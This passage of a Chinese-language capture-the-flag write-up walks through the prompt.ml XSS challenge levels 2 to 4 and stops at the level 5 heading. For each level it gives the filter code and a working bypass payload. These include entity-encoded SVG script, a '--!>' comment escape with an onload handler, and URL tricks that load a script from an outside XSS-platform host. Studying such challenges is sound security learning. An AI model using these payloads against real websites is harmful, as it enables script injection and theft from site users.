 ```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');
 
    // ok seriously, disallows equal signs and open parenthesis
    return input;
}
```
这里过滤了（=，只要把左括号ascii编码之后就可以了，构造payload：
```
<svg><script>prompt&#40;1)</script>
```
这里的svg不能去掉，由于xml编码特性。在SVG向量里面的script元素（或者其他CDATA元素 ），会先进行xml解析。因此&#x28（十六进制）或者&#40（十进制）或者&lpar；（html实体编码）会被还原成（。

还有一种支持es6的情况，使用eval会自动解码执行
```
<script>eval.call`${'prompt\x281)'}`</script>
```
## level3 ##
```
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');
 
    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}
```
源码中显示到-->被过滤，但是这题需要先闭合注释框，2012年后，html标签可以用--!>,于是构造payload：
```
--!><svg/onload=prompt(1)
```
## level4 ##
```
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}        
```
题目的意思大概是必须构造一个链接，才能使得返回答案，但是这里完全看不懂，所以贴上官方的writeup，等以后能看懂的时候回忆：
1、这个题目是利用url的特性绕过，浏览器支持这样的url：http://user:password@attacker.com。但是http://user:password/@attacker.com是不允许的。由于这里的正则特性和decodeURIComponent函数，所以可以使用%2f绕过，如下：http://prompt.ml%2f@attacker.com。所以域名越短，答案就越短。
```
//prompt.ml%2f@ᄒ.ws/✌       (这里用了@的黑魔法，后面是自己xss平台的引用，直接复制是xss)
```
2、The trick to solve the level with 17 characters only lies hidden in a transformation behavior some browsers apply when converting Unicode characters to URLs. A certain range of characters resolves to three other characters of which one is a dot - the dot we need for the URL. The following vectors uses the domain 14.rs that can be expressed by two characters only. One for the sequence 14. and one for the sequence rs:
```
//prompt.ml%2f@⒕₨
```
第二会弹出来xss...因为用了别人xss平台地址
## level5 ##